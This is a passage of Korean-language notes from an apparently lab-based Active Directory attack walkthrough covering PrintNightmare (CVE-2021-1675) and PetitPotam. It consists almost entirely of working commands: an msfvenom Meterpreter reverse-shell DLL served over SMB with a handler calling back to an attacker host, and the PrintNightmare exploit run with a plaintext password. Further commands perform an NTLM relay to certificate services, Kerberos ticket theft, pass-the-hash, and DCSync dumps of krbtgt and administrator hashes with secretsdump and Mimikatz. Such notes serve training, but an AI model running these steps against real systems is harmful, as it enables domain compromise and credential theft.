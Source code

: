git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

### MS-RPRN에 대한 열거
```rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'```

### DLL 페이로드 생성
```msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll```

### smbserver.py로 공유 생성
```sudo smbserver.py -smb2support CompData /path/to/backupscript.dll```

### MSF multi/handler 구성 및 시작
```
[msf](Jobs:0 Agents:0) >> use exploit/multi/handler
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set PAYLOAD windows/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST 172.16.5.225
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 8080
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run
```

### Exploit 실행
```sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'```

<br/><br/>
## 3. PetitPotam (MS-EFSRPC)

### ntlmrelayx.py 시작
```sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController```

### PetitPotam.py 실행
```python3 PetitPotam.py 172.16.5.225 172.16.5.5```

### DC01에 대한 Base64 인코딩된 인증서 포착

### gettgtpkinit.py를 사용하여 TGT 요청하기
```python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 MIIStQIBAzCCEn8GCSqGSI...SNIP...CKBdGmY= dc01.ccache```

### KRB5CCNAME 환경 변수 설정
```export KRB5CCNAME=dc01.ccache```

### klist 실행
```klist```
> klist 명령 사용을 위한 패키지 : [krb5-user](https://packages.ubuntu.com/focal/krb5-user)

### 도메인 컨트롤러에 대한 관리자 액세스 확인
```crackmapexec smb 172.16.5.5 -u administrator -H 88ad09182de639ccc6579eb0849751cf```

### getnthash.py를 사용하여 TGS 요청 제출
```python /opt/PKINITtools/getnthash.py -key 70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275 INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$```

### 도메인 컨트롤러 NTLM 해시를 사용하여 DCSync
```secretsdump.py -just-dc-user INLANEFREIGHT/administrator "ACADEMY-EA-DC01$"@172.16.5.5 -hashes aad3c435b514a4eeaad3b935b51304fe:313b6f423cd1ee07e91315b4919fb4ba```

### DC01$ 머신 계정으로 TGT 요청 및 PTT 수행
```.\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$ /certificate:MIIStQIBAzC...SNIP...IkHS2vJ51Ry4= /ptt```

### 티켓이 메모리에 있는지 확인
```klist```

### Mimikatz로 DCSync 수행
```
.\mimikatz.exe
mimikatz # lsadump::dcsync /user:inlanefreight\krbtgt
```
```